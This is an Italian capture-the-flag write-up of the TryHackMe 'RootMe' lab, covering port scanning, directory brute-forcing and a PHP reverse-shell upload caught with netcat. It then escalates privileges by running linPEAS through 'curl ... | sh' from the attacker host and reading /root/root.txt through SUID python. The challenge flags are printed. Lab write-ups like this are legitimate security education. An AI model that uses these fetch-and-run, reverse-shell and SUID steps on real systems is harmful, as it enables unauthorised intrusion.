









# RootMe

RootMe è un Capture The Flag (CTF) di livello facile, progettato per sviluppare competenze avanzate di penetration testing e escalation dei privilegi. Iniziamo il nostro viaggio accedendo alla macchina bersaglio tramite la nostra Kali Linux e avviando una scansione Nmap per esplorare le porte e i servizi disponibili.

```sh
└─$ sudo nmap -p- -sS -A 10.10.152.152
```


I risultati della scansione rivelano due porte aperte: la porta 22 per SSH e la porta 80 per HTTP. Queste informazioni ci permettono di rispondere a tre domande fondamentali:

$${\color{red}Scan \space the \space machine, \space how \space many \space ports \space are \space open?
} \space {\color{green}2}$$

$${\color{red}What \space version \space of \space Apache \space is \space running?
} \space {\color{green}2.4.29}$$

$${\color{red}What \space service \space is \space running \space on \space port \space 22?
} \space {\color{green}SSH}$$

Dopo la scansione, ci dirigiamo verso il servizio HTTP sulla porta 80. Nonostante un'animazione accattivante, decidiamo di utilizzare goBuster per individuare eventuali directory nascoste.



```sh
└─$ gobuster dir -u "http://10.10.152.152:80" -w /usr/share/wordlists/dirb/common.txt
```


All'interno della directory "/panel/", scopriamo un'area dedicata al caricamento di file, indicando la possibilità di un potenziale exploit. Sfruttando l'ambiente Apache, carichiamo una reverse shell in PHP dopo averla personalizzata con il nostro indirizzo IP e la porta. Successivamente, mettiamo in ascolto con Netcat prima di interagire con la nostra reverse shell attraverso la directory "/uploads/".

$${\color{red}What \space is \space the \space hidden \space directory?
} \space {\color{green}/panel/}$$

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]





```sh
└─$ nc -lnvp 4444
```
Una volta ottenuto l'accesso al sistema, procediamo alla ricerca del file "user.txt".


```sh
└─$ find / -name user.txt 2>/dev/null
```


<span style="color:red">
  user.txt
</span>

<span style="color:green">
THM{y0u_g0t_a_sh3ll}
</span>
Rispondiamo alla prima domanda del Task 4, eseguendo una ricerca dei file con permessi SUID.

```sh
└─$ find / -user root -perm /4000
```
Identificando il file "weird" nella directory "/usr/bin/python", approfondiamo ulteriormente l'analisi. Scarichiamo linPEAS sulla nostra macchina e lo trasferiamo al sistema bersaglio attraverso un server web Python temporaneo e in fine lo eseguiremo.



$${\color{red}Search \space for \space files \space with \space SUID \space permission, \space which \space file \space is \space weird?
} \space {\color{green}/usr/bin/python}$$

Ora per prendere l'ultima flag devo scalare i privilegi e per farlo mi aiuto con linPEAS.<br>
quindi lo scarico sulla mia macchina da qui
https://github.com/carlospolop/PEASS-ng/releases/tag/20231231-3221ac1a

```sh
└─$ sudo python -m http.server 8000
└─$ curl 10.14.65.216/linpeas.sh | sh
```

L'output di linPEAS evidenzia numerosi riferimenti a "python", aprendo la possibilità di utilizzarlo per leggere il contenuto del file "root.txt" nella directory "/root/".

```sh
└─$ python -c 'print(open("/root/root.txt").read())' 
```
Rispondendo all'ultima domanda del CTF, otteniamo il flag di root:



$${\color{red}root.txt
} \space {\color{green}THM\{pr1v1l3g3_3sc4l4t10n\}}$$


